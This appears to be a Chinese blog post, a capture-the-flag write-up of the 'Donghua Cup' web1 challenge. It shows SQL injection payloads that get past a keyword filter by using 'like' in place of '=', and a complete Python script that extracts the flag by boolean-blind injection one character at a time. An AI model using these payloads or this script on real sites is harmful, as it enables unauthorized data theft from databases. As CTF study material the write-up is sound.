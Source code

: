 ```yaml
---
layout: post
title: 东华杯web
category: blog
description: 作身为一个新人，只能在赛后复现一下，总结一下思路。
---
```


## web1
 这一题过滤了“ and | = | union | ' ”,我们可以把“=”用“like”代替。
 
    http://266dfa9c90ab43efad401761249dd9c842b417a05e0847d2.game.ichunqiu.com/index.php?id=0 or 1 like 1# 有回显
    http://266dfa9c90ab43efad401761249dd9c842b417a05e0847d2.game.ichunqiu.com/index.php?id=0 or 1 like 2# 无回显
 
判断出来注入点，盲注的方法可以参照[基于布尔的盲注学习笔记](http://blog.csdn.net/squeen_/article/details/52767887)

附上最后的爆破脚本：

    import requests  
    def getDBName(DBName_len):  
        DBName = ""  
         
        success_url = "http://266dfa9c90ab43efad401761249dd9c842b417a05e0847d2.game.ichunqiu.com/index.php?id=1"  
        success_response_len = len(requests.get(success_url).text)  
         
        url_template = "http://266dfa9c90ab43efad401761249dd9c842b417a05e0847d2.game.ichunqiu.com/index.php?id=0 or ascii(substr((select f14g from f14g limit 0,1), {0}, 1)) like {1}%23"  
        chars = '0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz{}_-'  
         
        print("Start to retrieve database name...")  
        print("Success_response_len is: ", success_response_len)  
        for i in range( 1, DBName_len + 1):  
            print("Number of letter: " , i)  
            tempDBName = DBName  
            for char in chars:  
                print("Test letter " + char)  
                char_ascii = ord(char)  
                url = url_template.format(i, char_ascii)  
                response = requests.get(url)  
                if len(response.text) == success_response_len:  
                    DBName += char  
                    print("DBName is: " + DBName + "...")  
                    break  
            if tempDBName == DBName:  
                print("Letters too little! Program ended." )  
                exit()  
        print("Retrieve completed! DBName is: " + DBName)  
         
    getDBName(42)  
结果如图：
![web1](/images/other/donghua_web1.png)
